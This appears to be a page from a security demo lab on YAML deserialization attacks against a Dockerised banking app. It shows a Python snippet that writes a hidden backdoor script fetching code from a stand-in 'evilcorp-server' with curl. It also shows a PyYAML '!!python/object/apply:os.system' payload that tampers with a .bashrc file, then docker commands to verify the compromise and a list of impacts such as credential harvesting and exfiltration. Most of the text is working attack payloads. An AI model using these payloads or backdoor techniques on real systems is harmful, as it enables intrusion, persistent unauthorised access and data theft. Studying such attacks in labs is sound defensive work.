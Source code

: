 
## Persistence Examples

### Create Backdoor Files
**Python Script:**
```python
import os
os.system('mkdir -p /tmp/.hidden')
os.system('echo "#!/bin/bash\ncurl http://evilcorp-server:8888/backdoor" > /tmp/.hidden/backdoor.sh')
os.system('chmod +x /tmp/.hidden/backdoor.sh')
```

### Environment Manipulation
**YAML:**
```
env_persist: !!python/object/apply:os.system
  - "echo 'export BACKDOOR=active' >> /tmp/.bashrc"
```

---

## Verification Commands

### Check application logs:
```
docker logs banking-app | grep DEBUG
```

### Verify file access:
```
docker exec -it banking-app find /tmp -name "*attack*" -o -name "*success*"
```

### Check network connections:
```
docker exec -it banking-app netstat -an | grep evilcorp-server
```

### Monitor evilcorp-server:
```
docker exec -it evilcorp-server tail -f /app/logs/access.log
```

---

## Impact Demonstration

### Complete System Compromise
1. **Information Gathering**: Extract system info, users, network config
2. **Credential Harvesting**: Search for passwords, keys, history files  
3. **Data Exfiltration**: Send sensitive files to attacker server
4. **Persistent Access**: Create backdoors and maintain access
5. **Lateral Movement**: Use compromised system to attack others
